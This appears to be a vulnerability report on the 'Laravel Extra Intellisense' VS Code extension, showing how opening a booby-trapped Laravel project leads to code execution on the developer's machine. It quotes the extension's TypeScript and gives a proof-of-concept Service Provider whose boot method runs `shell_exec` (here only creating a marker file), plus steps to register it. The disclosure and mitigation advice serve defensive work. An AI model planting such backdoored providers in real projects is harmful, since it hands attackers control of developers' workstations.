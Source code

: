 ### Vulnerability List:

#### 1. Remote Code Execution via Service Provider Backdoor

- **Description:**
    1. An attacker creates a malicious Laravel project.
    2. Within this project, the attacker crafts a backdoored Service Provider. This Service Provider contains PHP code designed to execute arbitrary commands on the system when the Laravel application is booted.
    3. A developer, unaware of the malicious nature of the project, opens this Laravel project in Visual Studio Code with the "Laravel Extra Intellisense" extension enabled.
    4. Upon opening the project, the extension automatically starts collecting Laravel project information to provide autocompletion features.
    5. To gather this information, the extension executes PHP code within the context of the opened Laravel project using the `php -r` command.
    6. This execution includes booting the Laravel application, which in turn loads and registers all Service Providers, including the attacker's backdoored Service Provider.
    7. As the backdoored Service Provider is booted, the malicious PHP code within it is executed, leading to Remote Code Execution on the developer's machine.

- **Impact:**
    - Full Remote Code Execution (RCE) on the developer's machine.
    - An attacker can gain complete control over the developer's workstation.
    - Potential for data exfiltration, malware installation, and further attacks on internal networks accessible from the developer's machine.

- **Vulnerability Rank:** Critical

- **Currently Implemented Mitigations:**
    - A "Security Note" section is present in the `README.md` file.
    - This note warns users that the extension runs their Laravel application automatically and periodically.
    - It advises users to be cautious of unknown errors in logs and to temporarily disable the extension if sensitive code is written in Service Providers.
    - However, this mitigation relies solely on the user reading and understanding the security implications and taking manual action. It does not prevent the vulnerability by default.

- **Missing Mitigations:**
    - **Input Sanitization:** The extension does not sanitize or validate the project paths or any code it executes from the opened Laravel project.
    - **Disable Automatic Execution by Default:** The extension automatically executes PHP code upon project opening without explicit user consent. Disabling this automatic execution by default and requiring user confirmation would significantly reduce the attack surface.
    - **User Confirmation before Execution:** Before executing any PHP code, the extension should prompt the user for confirmation, clearly explaining the potential security risks involved.
    - **Sandboxing or Isolation:** Executing the PHP code in a sandboxed environment or isolated process could limit the impact of potential RCE.
    - **Code Review and Security Audit:** A thorough security audit and code review of the extension, focusing on the PHP code execution paths, is crucial to identify and mitigate further vulnerabilities.

- **Preconditions:**
    - The developer must have the "Laravel Extra Intellisense" extension installed and enabled in Visual Studio Code.
    - The developer must open a malicious Laravel project in VSCode that contains a backdoored Service Provider.
    - The malicious Service Provider must contain code that is executed during the Laravel application's boot process (e.g., within the `boot` method).

- **Source Code Analysis:**
    - **`src/helpers.ts:runLaravel()`:** This function is the core of the vulnerability. It constructs a PHP command and executes it using `child_process.exec`.
    ```typescript
    static runLaravel(code: string, description: string|null = null) : Promise<string> {
        code = code.replace(/(?:\r\n|\r|\n)/g, ' ');
        if (fs.existsSync(Helpers.projectPath("vendor/autoload.php")) && fs.existsSync(Helpers.projectPath("bootstrap/app.php"))) {
            var command =
                "define('LARAVEL_START', microtime(true));" +
                "require_once '" + Helpers.projectPath("vendor/autoload.php", true) + "';" + // Includes vendor/autoload.php
                "$app = require_once '" + Helpers.projectPath("bootstrap/app.php", true) + "';" + // Includes bootstrap/app.php, boots Laravel application
                "class VscodeLaravelExtraIntellisenseProvider extends \\Illuminate\\Support\\ServiceProvider" +
                "{" +
                "   public function register() {}" +
                "	public function boot()" +
                "	{" +
                "       if (method_exists($this->app['log'], 'setHandlers')) {" +
                "			$this->app['log']->setHandlers([new \\Monolog\\Handler\\ProcessHandler()]);" +
                "		}" +
                "	}" +
                "}" +
                "$app->register(new VscodeLaravelExtraIntellisenseProvider($app));" +
                "$kernel = $app->make(Illuminate\\Contracts\\Console\\Kernel::class);" +
                // ... rest of the code execution ...
    ```
    - The `runLaravel` function includes `vendor/autoload.php` and `bootstrap/app.php` from the opened project. `bootstrap/app.php` boots the Laravel application, which triggers the registration and booting of Service Providers.
    - **Providers Usage:** Multiple providers (`BladeProvider`, `AuthProvider`, `EloquentProvider`, `RouteProvider`, `ConfigProvider`, `TranslationProvider`, `MiddlewareProvider`) call `Helpers.runLaravel()` to gather data. These calls are made automatically when the extension activates or periodically via `setInterval`.
    - **Example: `src/BladeProvider.ts:loadCustomDirectives()`:**
    ```typescript
    loadCustomDirectives() {
        try {
            var self = this;
            //
            Helpers.runLaravel(
                "$out = [];" +
                "foreach (app(Illuminate\\View\\Compilers\\BladeCompiler::class)->getCustomDirectives() as $name => $customDirective) {" +
                "    if ($customDirective instanceof \\Closure) {" +
                "        $out[] = ['name' => $name, 'hasParams' => (new ReflectionFunction($customDirective))->getNumberOfParameters() >= 1];" +
                "    } elseif (is_array($customDirective)) {" +
                "        $out[] = ['name' => $name, 'hasParams' => (new ReflectionMethod($customDirective[0], $customDirective[1]))->getNumberOfParameters() >= 1];" +
                "    }" +
                "}" +
                "echo json_encode($out);",
                "Custom Blade Directives"
                )
                .then(function (result) {
                    var customDirectives = JSON.parse(result);
                    self.customDirectives = customDirectives;
                });
        } catch (exception) {
            console.error(exception);
        }
    }
    ```
    - This code snippet from `BladeProvider` shows how `runLaravel` is used to execute PHP code to fetch custom blade directives. Similar patterns exist in other providers.

- **Security Test Case:**
    1. **Setup Malicious Laravel Project:**
        - Create a new Laravel project using `composer create-project laravel/laravel malicious-project`.
        - Navigate into the project directory: `cd malicious-project`.
        - Create a malicious Service Provider: `php artisan make:provider MaliciousProvider`.
        - Modify `app/Providers/MaliciousProvider.php` to include the following code in the `boot` method:
        ```php
        <?php

        namespace App\Providers;

        use Illuminate\Support\ServiceProvider;

        class MaliciousProvider extends ServiceProvider
        {
            public function register(): void
            {
                //
            }

            public function boot(): void
            {
                // Execute malicious command
                shell_exec('touch /tmp/vscode-laravel-extra-intellisense-rce-test');
            }
        }
        ```
        - Register the `MaliciousProvider` in `config/app.php` by adding it to the `providers` array:
        ```php
        'providers' => [
            // ... other providers
            App\Providers\MaliciousProvider::class,
        ],
        ```
    2. **Open Malicious Project in VSCode:**
        - Open the `malicious-project` folder in Visual Studio Code with the "Laravel Extra Intellisense" extension enabled.
    3. **Verify RCE:**
        - After opening the project and allowing the extension to activate and collect data (this might take a few seconds), execute the following command in your terminal: `ls -l /tmp/vscode-laravel-extra-intellisense-rce-test`.
        - If the vulnerability is successfully triggered, you will see the file `/tmp/vscode-laravel-extra-intellisense-rce-test` listed, indicating that the `shell_exec` command in the malicious Service Provider was executed, and thus confirming Remote Code Execution.
        - If the file exists, it proves that arbitrary PHP code from the malicious project was executed by the extension upon project load, confirming the RCE vulnerability.
